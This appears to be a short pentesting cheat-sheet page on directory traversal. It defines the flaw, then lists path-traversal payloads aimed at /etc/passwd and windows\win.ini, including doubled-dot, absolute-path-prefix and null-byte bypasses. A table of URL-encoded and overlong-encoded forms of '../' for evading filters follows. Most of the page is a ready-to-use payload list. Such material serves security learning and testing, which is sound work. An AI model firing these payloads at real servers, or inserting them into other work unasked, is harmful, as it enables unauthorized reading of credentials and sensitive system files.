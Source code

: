 ```yaml
---
description: Read random files that is running an application.
cover: https://www.plexal.com/wp-content/uploads/2023/05/MicrosoftTeams-image-171.png
coverY: 0
---
```


# Directory Traversal

Directory traversal (or path traversal) is a web security vulnerability that allows an attacker to read arbitrary files on the server that is running an application.&#x20;

This might include application code and data, credentials for back-end systems and sensitive operating system files.

## <mark style="color:red;">Bypass path traversal filters</mark>

```
..\..\..\windows\win.ini --> Windows OS

../../../etc/passwd

....//....//....//etc/passwd

/var/www/images/../../../etc/passwd 

../../../etc/passwd%00.png --> null byte bypass
```

## <mark style="color:red;">**URL Encoding**</mark>

| char | encode          |
| ---- | --------------- |
| ../  | %2e%2e%2f       |
| ../  | %252e%252e%252f |
| ../  | ..%252f         |
| ../  | ..%c0%af        |
| ../  | ..%ef%bc%8f     |
